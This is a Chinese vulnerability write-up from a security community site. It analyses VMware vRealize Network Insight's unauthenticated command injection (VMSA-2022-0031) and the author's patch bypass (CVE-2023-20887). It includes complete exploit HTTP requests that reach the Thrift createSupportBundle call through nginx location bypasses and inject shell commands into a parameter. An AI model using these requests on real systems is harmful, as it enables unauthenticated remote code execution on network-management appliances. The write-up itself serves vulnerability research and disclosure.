

# VMware VRealize Network Insight 命令注入和目录穿越及补丁绕过 - 先知社区

VMware VRealize Network Insight 命令注入和目录穿越及补丁绕过

* * *

本文分为两部分，前半部分主要是对 VMSA-2022-0031 的分析，后半部分是我挖的补丁绕过，官方公告是 VMSA-2023-0012 。

# VMSA-2022-0031

## 前言

[https://www.vmware.com/security/advisories/VMSA-2022-0031.html](https://www.vmware.com/security/advisories/VMSA-2022-0031.html)

爆了两个洞，一个未授权命令注入，一个目录穿越。

## 环境搭建

参考 [https://blog.csdn.net/x\_idea/article/details/124294823](https://blog.csdn.net/x_idea/article/details/124294823)

需要部署platform和collector两台机器

## 补丁比对

目录穿越

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102634-e1961e24-0a5a-1.png)

com.vnera.SaasListener.ServiceThriftListener.ServiceImpl#downloadFile

命令注入

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102648-e9fdbf7c-0a5a-1.png)

com.vnera.common.utils.ScriptUtils#evictPublishedSupportBundles

## 未授权命令注入

com.vnera.common.utils.ScriptUtils#evictPublishedSupportBundles

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102659-f0cd0f1a-0a5a-1.png)

拼接命令，向上回溯调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102708-f615d56a-0a5a-1.png)

com.vnera.SaasListener.ServiceThriftListener.ServiceImpl#createSupportBundle

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102718-fc0a56e4-0a5a-1.png)

nodeId可控，继续向上回溯

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102728-022ea872-0a5b-1.png)

找到`com.vnera.restapilayer.ManagementResource#createSupportBundles`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102738-08224ea0-0a5b-1.png)

这个函数对应的路由为`/support-bundle`需要授权，在他里面确实调用了createSupportBundles函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102749-0e8907c0-0a5b-1.png)

根据官方通告说的命令注入不需要授权，猜测自己找错方向了。

于是仔细看了看这个函数，发现了这三行代码

```plain
THttpClient transport = this.saaSCommunicationHelper.getSaasClientForNode((NodeInfo)nodesById.get(nodeId));
RestToSaasCommunication.Client client = this.getClient(transport);
Result result = client.createSupportBundle(Integer.toString(customerId), nodeId, request.getRequestId(), evictions.get(nodeId));
```

通告Google发现是thrift相关的东西，thrift是rpc调用，搜了几篇文章看了看

[https://juejin.cn/post/6844903622380093447](https://juejin.cn/post/6844903622380093447)

发现这玩意客户端和服务端可以分开监听，但是不知道具体怎么传输的，于是在机器上用tcpdump抓包所有网卡，找到路由`/support-bundle`对应的功能点点了点

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102801-15a20bd8-0a5b-1.png)

发现在点击`创建支持包`这个功能点之后

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102812-1c1efb92-0a5b-1.png)

有一条http请求是对`resttosaasservlet`路由的调用，端口为9090，而这个路由就是thrift的rpc服务。于是尝试怎么触发这个路由。

看了下nginx配置文件

```plain
upstream lbrest {
    server 127.0.0.1:8080;
}
server {
    listen 443 ssl http2;
    server_tokens off;

    root /usr/share/nginx/www;
    index index.html index.htm;
    ...省略...
    location /api {
        rewrite ^/api/(.*)$ /$1 break;
        proxy_pass http://lbrest;
        proxy_redirect off;
        proxy_buffering off;
        proxy_set_header        Host            $host;
        proxy_set_header        X-Real-IP       $remote_addr;
        proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header        X-Http-Scheme   $scheme;
    }
    ...省略...
    location = /saasresttosaasservlet {
        allow 127.0.0.1;
        deny all;
        rewrite ^/saas(.*)$ /$1 break;
        proxy_pass http://127.0.0.1:9090;
        proxy_redirect off;
        proxy_buffering off;
        proxy_set_header        Host            $host;
        proxy_set_header        X-Real-IP       $remote_addr;
        proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
    }
    location = /saasfedpeertosaasservlet {
        rewrite ^/saas(.*)$ /$1 break;
        proxy_pass http://127.0.0.1:9090;
        proxy_redirect off;
        proxy_buffering off;
        proxy_set_header        Host            $host;
        proxy_set_header        X-Real-IP       $remote_addr;
        proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
    }
    location = /saassaastofedpeerservlet {
        rewrite ^/saas(.*)$ /$1 break;
        proxy_pass http://127.0.0.1:9090;
        proxy_redirect off;
        proxy_buffering off;
        proxy_set_header        Host            $host;
        proxy_set_header        X-Real-IP       $remote_addr;
        proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
    }
    location /saas {
        rewrite ^/saas(.*)$ /$1 break;
        proxy_pass http://127.0.0.1:9090;
        proxy_redirect off;
        proxy_buffering off;
        proxy_set_header        Host            $host;
        proxy_set_header        X-Real-IP       $remote_addr;
        proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
    }
}
```

发现443转发到8080端口，`/saasxxx`相关的转发到9090端口，并重写url为`/xxx`，其中`/saasresttosaasservlet`路由重写为`resttosaasservlet`，对上了wireshark的抓包信息。

nginx配置了这个路由只允许127.0.0.1访问，但是可以绕过，因为用的是`location = /saasresttosaasservlet`，表示当url等于`/saasresttosaasservlet`时才会匹配上这个规则，我们可以用`/saasresttosaasservlet/`绕过

如图

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102832-27d068a4-0a5b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102843-2e670664-0a5b-1.png)

然后发现补丁中确实对这个进行了处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102853-34a067c8-0a5b-1.png)

说明我们找对了地方。

接下来就是构造thrift的协议请求包了，这个地方不说了，一边调试一边构造就可以了。最后构造出来exp如图

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102903-3ab35c9c-0a5b-1.png)

```plain
POST /saasresttosaasservlet/ HTTP/2
Host: 192.168.1.155
Content-Type: application/x-thrift
Accept: application/x-thrift
User-Agent: Java/THttpClient/HC
Content-Length: 93
Accept-Encoding: gzip,deflate

[1,"createSupportBundle",1,1,{"1":{"str":"10000"},"2":{"str":"*.tar.gz;touch /tmp/aaa;ls "}}]
```

thrift协议规范限制body中不能有空格或者换行符等，构造时注意。

合影留念

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102916-428a8698-0a5b-1.png)

## 目录穿越

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102926-4880dbba-0a5b-1.png)

简单看看应该一样的，不写了。

## 小结

由于nginx配置不当和拼接命令导致的rce，用了thrift做rpc。

# VMSA-2023-0012

Aria Operations for Networks Command Injection Vulnerability (CVE-2023-20887) 是对nginx规则的绕过

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614102952-577095de-0a5b-1.png)

上面的漏洞补丁放宽正则禁止了/saasresttosaasservlet路由，但是下面还有一个location块

```plain
location /saas {
    rewrite ^/saas(.*)$ /$1 break;
    proxy_pass http://127.0.0.1:9090;
    proxy_redirect off;
    proxy_buffering off;
    proxy_set_header        Host            $host;
    proxy_set_header        X-Real-IP       $remote_addr;
    proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
}
```

所以可以绕过

```plain
POST /saas./resttosaasservlet HTTP/2
Host: 192.168.1.155
User-Agent: Java/THttpClient/HC
Accept: application/x-thrift
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

[1,"getSystemInfo",1,1,{"1":{"i32":10000}}]
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230614103007-60a06300-0a5b-1.png)

rce同样用createSupportBundle函数，这个命令注入没修。

```plain
POST /saas./resttosaasservlet HTTP/2
Host: 192.168.1.155
User-Agent: Java/THttpClient/HC
Accept: application/x-thrift
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

[1,"createSupportBundle",1,1,{"1":{"str":"10000"},"2":{"str":"*.tar.gz;touch /tmp/asdasd;ls "},"4":{"lst":["str",0]}}]
```

文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。
